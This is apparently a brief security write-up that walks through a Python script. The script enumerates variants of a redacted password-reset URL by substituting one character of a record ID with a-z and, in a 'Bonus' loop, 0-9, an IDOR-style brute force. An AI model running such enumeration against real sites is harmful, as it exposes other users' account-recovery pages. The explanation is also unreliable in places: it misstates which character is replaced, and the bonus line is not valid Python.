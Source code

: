 Quick explanation:

 _The script is designed to brute-force the fifth character from the end of the URL by iterating through all lowercase alphabetic characters (a-z)._
- **Define the Base URL**:
    
    
    ```python
    base_url = "https://sub.redacted.com/secur/forgotpassword.jsp?id=0054J000007be1OQAA"
    ```
    
    This is the initial URL that the script will modify.
    
- **Initialize an Empty List for URLs**:
    
    
    ```python
    urls = []
    ```
    
    This list will store the generated URLs.

```python
    for char in range(ord('a'), ord('z')+1):
        new_url = base_url[:-4] + chr(char) + base_url[-3:]
        urls.append(new_url)
 ```

 The `for` loop iterates over the ASCII values of lowercase letters 'a' to 'z'.
        
`ord('a')` gives the ASCII value of 'a', and `ord('z')` gives the ASCII value of 'z'.
        
- `chr(char)` converts the ASCII value back to the corresponding character.
        
    - `base_url[:-4]` takes all characters of the base URL except the last 4.
        
    - `base_url[-3:]` takes the last 3 characters of the base URL.
        
    - `new_url` is created by inserting the character `chr(char)` into the base URL at the position 4 characters from the end.
        
    - Each `new_url` is appended to the `urls` list.
        
- **Print the Generated URLs**:
    
    
    ```python
    for url in urls:
        print(url)
    ```
    
    This loop prints each URL in the `urls` list.


## Bonus:

```Python
# Iterate through numeric characters (0-9)
for char in range(ord('0'), ord('9')+1): new_url = base_url[:-4] + chr(char) + base_url[-3:] urls.append(new_url)
```
